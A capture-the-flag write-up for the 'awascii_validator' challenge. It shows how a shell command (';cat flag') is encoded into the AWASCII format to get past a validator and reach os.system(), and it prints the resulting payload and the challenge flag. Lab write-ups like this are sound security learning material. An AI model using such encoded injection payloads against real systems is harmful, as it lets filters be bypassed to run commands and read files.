



# awascii_validator

## Difficulty

Medium

## Points Earned

822

## Description

> Learning a new language is hard... maybe this could help with practice
> 
> 10 point hint: Where to start looking
> 
> Author: Sheepiroo
> 
> https://awascii-validator.jellyc.tf/



## Solution

I thought about doing a shell injection attack for this one just like [awafy_me](./awafy_me.md) but the application protects against this:



I unlocked the hint for this one but it didn't tell me anything i didn't already know:

### Hint

> `os.system()` in awafier_decoder.py

Then I got the wild idea to encode `;cat flag.txt` into AWASCII (see page 5 of the [AWA5.0 spec](https://github.com/TempTempai/AWA5.0/blob/6fe3b2ef290a3df9c94822634c4ceb6c872cd2fd/AWA5.0%20Specs.pdf)). I did this manually but you could write a script to do this for you (and I ended up doing this later for [rev/lost_in_translation](../rev/lost_in_translation.md)).

```md
# plaintext
;cat flag

# ASCII code for each character
62 29 02 31 52 39 16 02 40

# in 6-bit binary
111110 011101 000010 011111 110100 100111 010000 000010 101000

# converted to AWASCII
wa wa wa wa wa awa
awa wa wa wa awa wa
awa awa awa awa wa awa
awa wa wa wa wa wa
wa wa awa wa awa awa
wa awa awa wa wa wa
awa wa awa awa awa awa
awa awa awa awa wa awa
wa awa wa awa awa awa

# concatenated with starting "awa"
awawawawawawa awa awawawawa awawa awa awa awa awawa awa awawawawawawawawa awawa awa awawa awa awawawawa awawa awa awa awa awa awa awa awa awawa awawa awawa awa awa awa
```



## Flag

`jellyCTF{m4st3rs_1n_awat1sm}`